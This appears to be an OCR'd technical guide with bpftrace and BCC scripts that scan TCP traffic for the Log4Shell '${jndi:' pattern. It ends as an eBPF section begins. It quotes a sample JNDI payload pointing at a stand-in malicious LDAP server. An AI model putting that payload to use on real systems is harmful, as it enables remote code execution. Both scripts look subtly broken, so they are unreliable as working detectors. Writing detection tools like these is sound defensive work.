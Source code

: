 | \#\!/usr/bin/env bpftrace/\* \* This BPFtrace script monitors TCP payloads for a suspicious pattern \`${jndi:\` \*/\#include \<linux/tcp.h\>BEGIN{    printf("Monitoring TCP payloads for the presence of the pattern \`${jndi:\`\\n");}tracepoint:net:netif\_receive\_skb/args-\>protocol \== ETH\_P\_IP/{    // Check if the packet is TCP    $ip \= (struct iphdr \*)(args-\>skbaddr \+ 14);    if ($ip\-\>protocol \!= IPPROTO\_TCP) {        return;    }    // Offset to TCP header    $tcph \= (struct tcphdr \*)(args-\>skbaddr \+ 14 \+ ($ip\-\>ihl \<\< 2));    // Check if there's a payload    $data\_offset \= 14 \+ ($ip-\>ihl \<\< 2\) \+ ($tcph-\>doff \<\< 2);    $payload\_size \= $ip-\>tot\_len \- ($data\_offset \- 14);    if ($payload\_size \> 0\) {        $payload \= (char \*)(args-\>skbaddr \+ $data\_offset);        // Check for suspicious pattern \`${jndi:\`        $pattern \= "${jndi:";        $pattern\_len \= str($pattern);        $found \= 0;        for ($i \= 0; $i \<= $payload\_size \- $pattern\_len; $i++) {            if (memcmp($payload \+ $i, $pattern, $pattern\_len) \== 0\) {                $found \= 1;                break;            }        }        if ($found) {            printf("Suspicious pattern found in TCP payload\\n");            printf("Src IP: %s, Dest IP: %s\\n", ntop($ip-\>saddr), ntop($ip-\>daddr));        }    }} |
| :---- |

### **Explanation:**

1. **Tracepoint**: `tracepoint:net:netif_receive_skb` is used to capture incoming packets at the network interface level.  
2. **Protocol Check**: Filters packets to ensure only TCP packets are processed.  
3. **Offsets Calculation**: Calculates offsets to locate the TCP payload within the packet.  
4. **Payload Extraction**: Extracts the TCP payload.  
5. **Pattern Matching**: Compares the payload data against the pattern `${jndi:`.

### **Limitations:**

* BPFtrace has limitations in terms of payload size it can handle.  
* String operations and complex pattern matching are not efficiently supported.  
* Parsing and inspecting payloads in BPFtrace is complex and may not be entirely reliable for all edge cases.

**BCC Alternative:**  
For a more robust solution, BCC (BPF Compiler Collection) would be better suited. Here’s an example in Python using BCC:

| from bcc import BPFfrom pyroute2 import IPRouteprogram \= """\#include \<net/sock.h\>\#include \<bcc/proto.h\>int monitor\_tcp(struct \_\_sk\_buff \*skb) {    u8 \*cursor \= 0;    struct ethernet\_t \*ethernet \= cursor\_advance(cursor, sizeof(\*ethernet));    if (ethernet-\>type \!= ETH\_P\_IP) {        return 0;    }    struct ip\_t \*ip \= cursor\_advance(cursor, sizeof(\*ip));    if (ip-\>nextp \!= IPPROTO\_TCP) {        return 0;    }    struct tcp\_t \*tcp \= cursor\_advance(cursor, sizeof(\*tcp));    u32 tcp\_header\_length \= tcp-\>offset \<\< 2;    cursor\_advance(cursor, tcp\_header\_length \- sizeof(\*tcp));    // Calculate payload offset and size    u32 ip\_header\_length \= ip-\>hlen \<\< 2;    u32 payload\_offset \= sizeof(\*ethernet) \+ ip\_header\_length \+ tcp\_header\_length;    u32 payload\_length \= ip-\>tlen \- ip\_header\_length \- tcp\_header\_length;    if (payload\_length \<= 0\) {        return 0;    }    // Check for the suspicious pattern in the payload    u8 \*payload \= cursor\_advance(cursor, payload\_length);    char pattern\[\] \= "${jndi:";    int pattern\_len \= sizeof(pattern) \- 1;    int i;    for (i \= 0; i \<= payload\_length \- pattern\_len; i++) {        if (memcmp(payload \+ i, pattern, pattern\_len) \== 0\) {            bpf\_trace\_printk("Suspicious pattern found in TCP payload\\\\n");            bpf\_trace\_printk("Src IP: %d.%d.%d.%d, Dest IP: %d.%d.%d.%d\\\\n",                             ip-\>src \>\> 24, (ip-\>src \>\> 16\) & 0xFF,                             (ip-\>src \>\> 8\) & 0xFF, ip-\>src & 0xFF,                             ip-\>dst \>\> 24, (ip-\>dst \>\> 16\) & 0xFF,                             (ip-\>dst \>\> 8\) & 0xFF, ip-\>dst & 0xFF);            break;        }    }    return 0;}"""bpf \= BPF(text=program)bpf.attach\_kprobe(event="tcp\_v4\_connect", fn\_name="monitor\_tcp")print("Monitoring TCP payloads for the presence of the pattern \`${jndi:\`")bpf.trace\_print() |
| :---- |

This BCC script is more powerful and capable of detailed packet inspection. Make sure you have the necessary privileges and dependencies to run this script.

**Note:**  
Both examples assume basic networking and BPF knowledge.  
Fine-tuning might be necessary depending on the environment and specific requirements.  
Make sure to run these scripts with appropriate privileges (root or with CAP\_SYS\_ADMIN   
capability).

**BPF Program**  
To detect the Log4Shell vulnerability using Berkeley Packet Filter (BPF), you can create an eBPF program. This vulnerability (CVE-2021-44228) allows for Remote Code Execution (RCE) through the Log4j library by exploiting Java Naming and Directory Interface (JNDI) lookup feature with specific payloads. The payloads usually involve a string like ${jndi:ldap://malicious.server/exploit}.

Here’s a basic outline on how to write an eBPF program to detect such malicious payloads in network traffic. This will involve:

1. Writing the eBPF program to inspect packet content for suspicious JNDI lookup strings.  
2. Compiling the eBPF program and loading it into the kernel.  
3. Attaching the eBPF program to a network interface to monitor traffic.

Note: Writing and deploying eBPF programs requires kernel version 4.1 or later and appropriate privileges

- *Step 1*: Writing the eBPF Program

Below is a simplified version of an eBPF program in C that detects suspicious JNDI lookup strings in packets:
